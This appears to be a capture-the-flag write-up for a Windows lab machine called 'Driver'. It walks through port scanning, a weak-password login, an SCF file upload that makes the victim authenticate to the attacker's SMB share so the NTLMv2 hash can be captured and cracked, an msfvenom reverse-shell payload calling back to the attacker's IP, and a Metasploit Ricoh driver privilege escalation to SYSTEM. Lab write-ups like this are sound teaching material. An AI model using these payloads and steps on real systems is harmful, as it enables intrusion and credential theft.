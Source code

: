 # Driver

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:26 EDT
Nmap scan report for 10.129.95.238
Host is up (0.015s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Interestingly, WinRM is open.&#x20;

### SCF Exploit --> Creds

Port 80 requires credentials to access.

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I tested weak credentials of `admin:admin`, and it worked. The page is some type of printer service panel.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

The only working part is the Firmware Updates, which redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (6) (6).png" alt=""><figcaption></figcaption></figure>

This would take any file and upload them to the file share, and a user would open it. Because it uploads to SMB, we can create a malicious SCF File to exploit this.

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

This uses the SCF file to access our machine via SMB, and `responder` would capture the hash. Create an SCF file like so and start `responder`.&#x20;

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Once uploaded, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (5) (9).png" alt=""><figcaption></figcaption></figure>

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-06 09:34) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then log in using `evil-winrm` since port 5985 is open.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Printer Driver Exploit

I ran a WinPEAS scan to enumerate for me. While reading the output, we can see that there's Powershell history files:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Here's the file content:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This, combined with the box name was a hint that we had to expoloit this specific driver somehow. I could only find Metasploit exploits, so let's use that. First we have to generate a Meterpreter reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f exe -o meter.exe
```

Then, we need to upload it and start `exploit/multi/handler`.&#x20;

<figure><img src="../../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>

Then, we need to first run `migrate -N explorer.exe` , then `background` this and use the `exploit/windows/local/ricoh_driver_privesc` module. Then, run the following:

```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
exploit
```

Afterwards, we would get a shell as the SYSTEM user.

<figure><img src="../../../.gitbook/assets/image (568).png" alt=""><figcaption></figcaption></figure>

Rooted!
